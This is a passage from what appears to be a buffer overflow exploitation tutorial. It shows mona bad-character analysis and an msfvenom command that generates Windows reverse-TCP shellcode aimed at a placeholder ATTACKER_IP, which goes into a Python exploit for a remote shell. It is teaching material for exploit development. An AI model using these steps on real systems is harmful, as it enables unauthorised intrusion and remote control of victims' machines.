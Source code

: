From the above screenshots we can see that the program crashed again at **0x0175F9EA**
&nbsp;

Using **!mona compare** command it is easy to identify which characters caused the program to crash.

&nbsp;
>> **$> !mona compare -f c:\WORKING_DIRECTORY\bytearray.bin -a 0x0175f9ea**{: style="color: red"}
&nbsp;

&nbsp;
![image40]({{ site.baseurl }}/assets/images/40.png){:.images}
&nbsp;

From the above screenshot, it seems that the vulnerable application considers only **\x00** as a bad character. If there was another one, it would appear on the "Bad Chars" table and in that case we would create a byte array again, e.x if **\xff** and **\x09** appeared to be a bad character we would use the below command.

&nbsp;
>> **$> !mona bytearray -cpb "\x00\x09\xff:**{: style="color: red"}
&nbsp;

But in this case, is not needed so we are going to create our custom shellcode as seen on the screenshots below. The following command will generate a reverse_tcp shellcode.

&nbsp;
>> **$> msfvenom -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=9999 -f python -v shellcode -b "\x00"**{: style="color: red"}
&nbsp;


**-p payload**: windows/shell_reverse_tcp
**-f format**: ready to use for our python script
**-b badcharacters**: excluding only \x00
**lhost**: attacker's ip
**lport**: attacker's listening port


&nbsp;
![image41]({{ site.baseurl }}/assets/images/41.png){:.images}
&nbsp;

We are going to insert the generated shellcode in our python script.

&nbsp;
![image42]({{ site.baseurl }}/assets/images/42.png){:.images}
&nbsp;


After sending our final crafted exploit, we will receive a reverse TCP connection on our attacking machine.

&nbsp;
![image43]({{ site.baseurl }}/assets/images/43.png){:.images}
&nbsp;
&nbsp;
![image43.2]({{ site.baseurl }}/assets/images/43.2.png){:.images}
&nbsp;

